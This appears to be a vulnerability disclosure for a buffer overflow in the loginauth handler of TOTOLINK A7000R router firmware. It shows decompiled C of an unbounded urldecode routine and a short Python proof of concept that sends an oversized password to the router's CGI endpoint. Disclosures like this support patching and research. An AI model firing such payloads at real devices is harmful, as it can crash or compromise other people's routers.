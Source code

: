 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/171/ids/36.html

## Affected version

A7000R_Firmware V9.1.0u.6268_B20220504

## Vulnerability details

In the A7000R_Firmware V9.1.0u.6268_B20220504 firmware has a buffer overflow vulnerability in the `loginauth` function. The `v3` variable receives the `password` parameter from a POST request. However, since the user can control the input of `password`, the statement `urldecode(v3, v28);` can cause a buffer overflow injection vulnerability.

![image-20240721224515648](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721224515648.png)

```c
_BYTE *__fastcall urldecode(int a1, _BYTE *a2)
{
  _BYTE *v3; // $s2
  int v4; // $s1
  unsigned int i; // $s0
  int v6; // $v0
  int v7; // $v1
  int v8; // $v0
  char v9; // $a0
  char v10; // $a2
  char v11; // $v1
  char v12; // $a0
  char v13; // $a2
  _BYTE *v15; // [sp+4Ch] [+2Ch]

  v15 = a2;
  v3 = a2;
  v4 = 1;
  for ( i = 0; i < strlen(a1); ++i )
  {
    v6 = *(char *)(a1 + i);
    if ( v6 == 37 )
    {
      v7 = *(char *)(a1 + i + 1);
      i += 2;
      v8 = *(char *)(a1 + i);
      v9 = 0;
      if ( v7 >= 65 )
        v9 = 7;
      v10 = 0;
      if ( v7 >= 97 )
        v10 = 32;
      v11 = v7 - 48 - v9 - v10;
      v12 = 0;
      if ( v8 >= 65 )
        v12 = 7;
      v13 = 0;
      if ( v8 >= 97 )
        v13 = 32;
      *v3 = v8 - 48 - v12 - v13 + 16 * v11;
    }
    else
    {
      *v3 = v6;
    }
    ++v4;
    ++v3;
  }
  v15[v4 - 1] = 0;
  return v15;
}
```

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {"username":"admin","password":"a"*0x1000,"flag":"0","topicurl":"loginAuth"}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240720235757375](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720235757375.png)
